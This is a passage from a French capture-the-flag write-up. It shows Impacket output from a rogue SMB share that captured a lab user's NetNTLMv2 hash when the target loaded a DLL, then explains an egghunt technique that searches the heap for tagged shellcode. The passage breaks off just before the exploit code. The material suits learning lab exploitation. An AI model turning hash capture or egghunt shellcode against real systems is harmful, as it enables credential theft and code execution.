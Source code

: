 J'ai hâte de savoir si d'autres participants ont utilisé cette technique avec succès.  

Bon point cependant : puisque le système accédait à mon partage SMB pour charger la DLL je pouvais capturer le hash NetNTLM :) Certes je n'ai pas réussi à le casser et je n'aurais pas pu l'utiliser en raison des ports Windows inaccessibles :p  

```plain
Impacket v0.9.17 - Copyright 2002-2018 Core Security Technologies

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.112,49986)
[*] AUTHENTICATE_MESSAGE (PIEDPIPER\Nelson,PIEDPIPER)
[*] User Nelson\PIEDPIPER authenticated successfully
[*] Nelson::PIEDPIPER:4141414141414141:e51986da0b07efb41cfbac181b640cd3:010100000000000080d214e08890d4016d9a7f15a2cedd2e0000000001001000740069006c006900440074006b0055000200100073007a00500041006400640057005a0003001000740069006c006900440074006b0055000400100073007a00500041006400640057005a000700080080d214e08890d40106000400020000000800300030000000000000000000000000200000b4d3d270bf5dba3dbfb0d467472095c4a2c7f26009f9adcd4ab6da49d7ed369c000000000000000000000000
[*] Disconnecting Share(1:IPC$)
```

Humpty Dumpty
-------------

La méthode vraisemblablement attendue pour le challenge est d'utiliser un egghunt.  

Cette technique est généralement employée quand on ne dispose pas d'assez de place pour placer un shellcode long mais qu'on a la possibilité d'insérer dans la mémoire du processus (à une adresse inconnue) des données à nous.  

Le egghunt qui est un shellcode de petite taille va chercher le shellcode de longue taille en explorant la mémoire du processus et l'exécuter s'il le trouve.  

Ici on sait que les données récupérées par *recv()* sont stockées dans des buffers alloués sur le tas et si on regarde mieux le code on voit qu'il n'y a pas de *free()* associé : l'espace mémoire n'est donc pas libéré !  

J'ai du faire face ici à deux difficultés :   

* Je ne voulais pas explorer la totalité de la mémoire du process (4Go ça fait beaucoup) surtout que l'on sait que l'on doit chercher sur le tas
* Le egghunt plantait car il se trouvait lui même. Il faut donc que le tag (octets servant d'identifiant pour reconnaître le début du shellcode) ne soit pas présent tel quel dans le egghunt

Ces problématiques ont été adressées de cette façon :  

* On sait que le thread fait des *malloc()/memset()* donc on s'attend à trouver un pointeur vers une zone alloué en remontant la pile. En l’occurrence un *pop* suffit :D
* Pour le tag il suffit d'avoir sa valeur - 1 dans le egghunt et de l'incrémenter en assembleur avant de le rechercher

Cela nous donne l'exploit suivant :  

